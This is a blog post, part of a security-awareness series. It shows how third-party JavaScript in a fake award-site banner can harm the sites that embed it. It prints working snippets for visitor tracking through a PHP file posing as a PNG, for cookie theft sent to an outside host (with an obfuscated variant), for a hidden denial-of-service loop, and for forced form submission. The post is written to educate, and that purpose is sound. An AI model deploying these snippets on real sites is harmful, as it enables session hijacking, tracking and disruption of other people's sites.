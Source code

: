 ```yaml
---
layout: post
title: 'The very bad things that Javascript can do: Part 2'
tags:
- html
- javascript
- security
---
```


In part 1, I discussed the various arguments I run into about wanting to be overly security conscious with our sites in regard to third party javascript. In this entry, we’ll run through a few scenarios.

In our scenarios here, we’re going to focus on a fake award site called “AwardSite” that gave our victim a winning notification. They are in the top 5% of 2013’s best websites. The servers have PHP and are apache servers.

Perhaps they send an email like this:


    Hello and congratulations!  Your site, http://victimsite.com, has won the prestigious Best of 2013 award from AwardSite.com!  
     
    Did you know you made it into the top 5%?  We're impressed, and you should be proud!
     
    Below, you'll find a snippet of code to insert into the footer of your website.  It shows off your great accomplishment.
     
    Did you know AwardSite.com has a very high Search Engine Optimization ranking?  We're already linking to your website -
    but that doesn't complete the circle.  If you use the banner in the code below, you not only show off your reputation this year but that reciprocal link helps Google AND Bing rank your site even higher.
     
    Congratulations again!
     
    Fake Guy
    AwardSite.com


And of course, at the very end of the email is some HTML or Javascript that they are prompted to put into their site.

Now, for our example, we’re going to use the following banner:

http://aaronsaray.com/wp-content/uploads/2013/03/award.png


Now, lets run through some scenarios.



#### Hit Counter / Target Determination

In this case, the nefarious hacker wants to determine if this site has a lot of traffic. And, of that traffic, they want to determine what the demographics of the browsers are. This is a very easy information gathering attempt. This is what the code looks like:

{% highlight HTML %}
<a href="http://awardsite.com"><img src="http://awardsite.com/award.png?compress=134"></a>
{% endhighlight %}

Let’s break down what the code means, and then show the back-end. First, it is just a link to the awardsite website. The image is the banner that you saw above. Finally, that image has a pretty non-conspicuous get parameter called ‘compress’ which is set to the ID in the database of this particular victim site. It was important to use a word that SEEMED somewhat legitimate. Of course compress seems ok, so why would I judge that?

On the server, however, the file award.png is actually a PHP file. The apache server has configuration, perhaps in the .htaccess file, like this:

    <Files award.png>
        ForceType application/x-httpd-php
    </Files>

Then, the award.png file has the following PHP. (Please note, I’ve not went to the trouble to make sure this handles EVERY scenario… this is meant as a proof of concept).

Note: updateSite() is a function that writes an entry to the database using that siteID. I didn’t think it was important enough to show that code too.

{% highlight PHP %}
<?php
$siteID = isset ($_GET['compress']) ? $_GET['compress'] : null;
 
if ($siteID) {
    $header = isset($_SERVER['HTTP_USER_AGENT']) ? $_SERVER['HTTP_USER_AGENT'] : '';
    updateSite($siteID, $header);
}
 
header('Content-type: image/png');
readfile('sourceawardfile.png');
{% endhighlight %}

This code basically gets the siteID from the GET query. It then grabs the user agent and inserts that into the database with the siteID. This works as a hit-counter and a demographics tracking. The backend will have to have some sort of analytic processing software to determine which browsers are visiting, etc.

No matter if there’s a valid siteID or not, finally the png header gets sent and the real award file is sent to the browser.

In this case, our victim has allowed the “bad guy” to keep track of their visitors, times, and demographics. They can now determine if this is a high traffic site or not – and whether its worth targeting specifically with more sophisticated attacks.

#### Cookie Stealing / Session Theft

PHP stores the session key as a cookie on the visitors browser named PHPSESSID by default. If the hacker had this cookie, and the session hadn’t expired, they could act as the victim. The goal here is to have a logged in user of victim website visit the bad Javascript. Then, the cookie is sent to the hacker who then uses that to steal the session of the victim.

Here is the source code for the HTML/Javascript from the email:

{% highlight HTML %}
<a href="http://awardsite.com" id="awardlink">
    <script>
        var i = new Image();
        i.src = 'http://awardsite.com/award.png?c=' + document.cookie;
        document.getElementById('awardlink').appendChild(i);
    </script>
</a>
{% endhighlight %}

Here, a new image is created. Then, it is sent to the award.png PHP file. In this case, we grab the entire document.cookie. The cookie can then be parsed from the string of the GET parameter. Finally, the image is added to the file and no one is the wiser.

Of course, this kind of can look a bit bad if you see the words ‘document.cookie’ – so we can obscure this a bit. Try this:

{% highlight javascript %}
var s = 'http://awardsite.com/award.png';
var i = new Image();
var _0xba4e=["\x63\x6F\x6F\x6B\x69\x65"];
var j=document[_0xba4e[0]];
i.src = concat(s,'?c=', j);
document.getElementById('awardlink').appendChild(i);
{% endhighlight %}    
        
Of course, it can look bad for our trained eyes… but for those who don’t “work on computers” they’ll just think its code they don’t understand and use it.

**For future examples, I won’t show how to obfuscate the code. But that would be one of the steps.**

#### Denial of Service for Victim Site

What if we could make the visitor perform a denial of service? That wouldn’t be that hard.

{% highlight HTML %}
<a href="http://awardsite.com" id="awardlink">
    <script>
        var s = 'http://awardsite.com/award.png';
        var i = new Image();
        document.getElementById('awardlink').appendChild(i);
        setTimeout(function() {
            for (var x = 0; x < 1000; x++) {
                var j = new Image();
                j.style = 'display: none';
                j.src = 'http://victimsite.com/someasset.php';
                document.body.appendChild(j);
            }
        }, 3000);
    </script>
</a>
{% endhighlight %}

In this case, the image is added successfully. However, the setTimeout() method executes a different function 3 seconds later. The delay is so that the user won’t notice the delay in their browser (hopefully the entire site has loaded by then) – and it puts it in the background. Then, a new ‘image’ is created 1000 times and appended to the document – with a hidden display (so the visitor can’t tell). But, basically, one visitor to this site, especially if they spent some time just reading the content, loaded 1000 more requests than were necessary.

#### Processing Actions as the Victim

We all know that we need to not have forms that submit with the method of GET if the action is something that adds/edits/updates information. This restricts me from creating a sample that uses the Image() object to load a fake form submission with GET parameters. However, it doesn’t stop us from submitting a form that MAY be on the current page.

{% highlight HTML %}
<a href="http://awardsite.com" id="awardlink">
    <script>
        var s = 'award.png';
        var i = new Image();
        i.src = s;
        document.getElementById('awardlink').appendChild(i);
        var f = document.getElementById('formID');
        f[0].value = 'Some Nefarious Input';
        f.submit();
    </script>
</a>
{% endhighlight %}

This code goes and gets the form with an ID of ‘formID’ and populates the first element with some bad information. Then it clicks submit.

This is bad, but there are some potential problems. What if… the form doesn’t have an ID? Remember, we could also do some research, determine this is the second form on the page, and substitute the following:

{% highlight javascript %}
var f = document.forms[1];
{% endhighlight %}


OK, but lets just say its distracting to the visitor when the form is submitting. It takes them away from what they’re doing – of course they’re going to report it. Well, we can force the form to be ajax, and then submit.

{% highlight javascript %}
f.onsubmit = function() {
    //code to create xmlhttprequest and send form as ajax
};
f.submit();
{% endhighlight %}

#### So what does all this mean?

Now that you’ve seen the examples of what can happen, I hope it turns on a light that we need to be more vigilant about what we allow clients to put into your hosted applications.


        
